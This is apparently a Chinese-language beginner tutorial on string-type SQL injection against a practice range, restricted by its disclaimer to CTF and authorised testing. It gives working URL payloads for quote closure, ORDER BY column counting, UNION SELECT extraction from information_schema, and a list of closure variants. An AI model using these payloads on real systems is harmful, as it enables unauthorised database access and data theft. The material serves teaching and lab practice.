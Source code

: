 <!--
author: maomao
date: 2019-01-24
title: 2.4 SQL注入之字符型报错注入
category: web安全入门
status: publish
summary:字符型注入就是把输入的参数当做字符串对数据库进行查询，字符型注入在sql语句中都采用单引号括起来。
-->
#2.3、sql注入之字符型注入

##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。


##二、前言

本节课程中将会讲解单引号、双引号以及字符型报错注入三小节的内容。


##三、什么是字符型注入

字符型注入就是把输入的参数当做字符串对数据库进行查询，字符型注入在sql语句中都采用单引号括起来。字符型注入与数字型注入最大的区别是数字类型不需要单引号闭合，而字符型串类型需要单引号闭合。

这里解释一下为什么需要闭合

以我们的靶场为例，链接如下：

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1

查看一下网站源码，可以后台sql语句如下:

![](img/2.3/1.png)

再这里我们利用 or 1=1 来验证网站是否存在注入，如果我们不进行闭合,链接如下：

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1 or 1=1 --+

这个链接的后台sql语句

>SELECT * FROM users WHERE id='1  or 1=1 --+' LIMIT 0,1

由此可以得知，1前面的单引号没有被闭合。由于拼接了非法了sql语句，数据库无法执行,故无法注入成功。我们是想在数据库中查询出我们想要的数据，就需要对其进行闭合。现构造链接如下：

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1' or 1=1 --+

此链接的后台sql如下：

SELECT * FROM  users WHERE id='1 ’ or 1=1 --+' LIMIT 0,1

因--+后面被注释，我们讲前半部分带入数据库中执行,如下图可以发现执行成功。将or 1=1 换成其他的sql语句便可以从数据库查询出我们需要的数据。

![](img/2.3/2.png)

##四、字符型单引号注入实战

靶场地址：http://39.98.88.18:8080/sql/Less-1/index.php?id=1

若有细节不懂的地方，可以翻看前几次课程，或者随时在星球内提问。

###1.判断注入点

在id=1的后面添加一个单引号，然后报出错误。说明此处存在注入。

![](img/2.3/3.png )

###2.报错信息分析

报错语句分析：

>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

报错语句中一共有五个引号，去除最外面两个标示错误位置的引号，还有三个，1左边一个，右边两个，我们刚刚在1后面添加了一个引号。由此可以得知，这是单引号字符型报错注入。

###3.进行闭合

我们尝试用or 1=1 进行闭合。构造链接如下

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1' or 1=1 --+

构造成功

![](img/2.3/4.png)

###4.判断列数

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1' order by 4--+

![](img/2.3/5.png)

###5.判断回显位置

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1' union select 1,2,3--+

![](img/2.3/6.png)

###6.查询数据名

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(schema_name),3 from information_schema.schemata--+

![](img/2.3/7.png)

###7.查询列名

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security '--+

![](img/2.3/8.png)

###8.查询表名

> http://39.98.88.18:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(column_name),3 from information_schema.columns where table_name= 'flag '--+

![](img/2.3/9.png )

###9.查询数据

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1'union select 1,flag,3 from flag--+

![](img/2.3/10.png)

成功查询出数据。


##五、其他类型字符串注入漏洞

在实际的渗透中,字符型注入并不都是由单引号闭合。还有双引号，单括号，双括号，或者前几种组合等可能，下面提供一份常见的闭合列表

> or 1=1 --+

> 'or 1=1 --+

> "or 1=1 --+

> )or 1=1 --+

> ')or 1=1 --+

> ") or 1=1 --+

> "))or 1=1 --+

以上这些类型的注入与我们上文的单引号注入漏洞并无本质的区别，唯一的区别就是在注入时闭合方式的不同，其他与上述相同。在后面的习题中会给出相应的练习题，请大家自行尝试，然后在稍后的我会给出解题文档。

##六、课后习题

单引号字符型注入：

>http://39.98.88.18/challenges#%E5%8D%95%E5%BC%95%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B

单引号+单括号字符型注入：

>http://39.98.88.18/challenges#%E5%8D%95%E5%BC%95%E5%8F%B7+%E5%8D%95%E6%8B%AC%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5

双引号+单括号注入

>http://39.98.88.18/challenges#%E5%8F%8C%E5%BC%95%E5%8F%B7+%E5%8D%95%E6%8B%AC%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5
